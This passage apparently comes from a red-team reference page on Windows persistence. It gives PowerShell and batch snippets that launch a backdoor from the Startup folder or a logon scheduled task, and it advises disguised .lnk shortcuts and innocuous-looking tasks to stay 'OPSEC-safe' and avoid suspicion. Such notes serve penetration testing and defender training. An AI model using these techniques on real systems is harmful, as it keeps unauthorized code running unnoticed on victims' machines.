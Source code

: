 To disable this, delete the registry key.

```
reg.exe delete "HKCU\Software\Microsoft\Command Processor" /v AutoRun
```

### Startup Folder

Create a batch script in the user startup folder to run when the user logs in.

{% tabs %}
{% tab title="PowerShell" %}
Create start.ps1 in `"$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\"`.  Then have this PowerShell script call your backdoor in `$env:USERPROFILE\AppData\Local\Temp\`.

```powershell
#start.ps1
Start-Process -FilePath $env:USERPROFILE\AppData\Local\Temp\backdoor.ps1
```
{% endtab %}

{% tab title="cmd.exe" %}
Create .bat in `"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"`.  Then have this batch file call your backdoor in `%USERPROFILE%\AppData\Local\Temp\`.

```
#start.bat
start /b $env:USERPROFILE\AppData\Local\Temp\backdoor.bat
```
{% endtab %}
{% endtabs %}

A better alternative would be to create a .lnk file in the startup folder which points to your script in another location.  This may be more OPSEC-safe, especially if the link is disguised. Use the PowerShell script linked below to create a (potentially hidden?) .lnk file using an icon appropriate for the environment:

[https://github.com/zweilosec/PowerShell-Administration-Tools/blob/master/New-Shortcut.ps1](https://github.com/zweilosec/PowerShell-Administration-Tools/blob/master/New-Shortcut.ps1)

### Scheduled Tasks

{% tabs %}
{% tab title="PowerShell" %}
These commands will allow your backdoor to be run when the specified user logs into the machine.  Combined with the cmd init autorun above this scheduled task could do something helpful or innocuous to avoid suspicion.

```powershell
$action = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c $backdoor_path"
$trigger = New-ScheduledTaskTrigger -AtLogOn -User "$username"
$principal = New-ScheduledTaskPrincipal "$username"
$settings = New-ScheduledTaskSettingsSet
$task = New-ScheduledTask -Action $action -Trigger $trigger -Principal $principal -Settings $settings
Register-ScheduledTask $taskname -InputObject $task
```
{% endtab %}
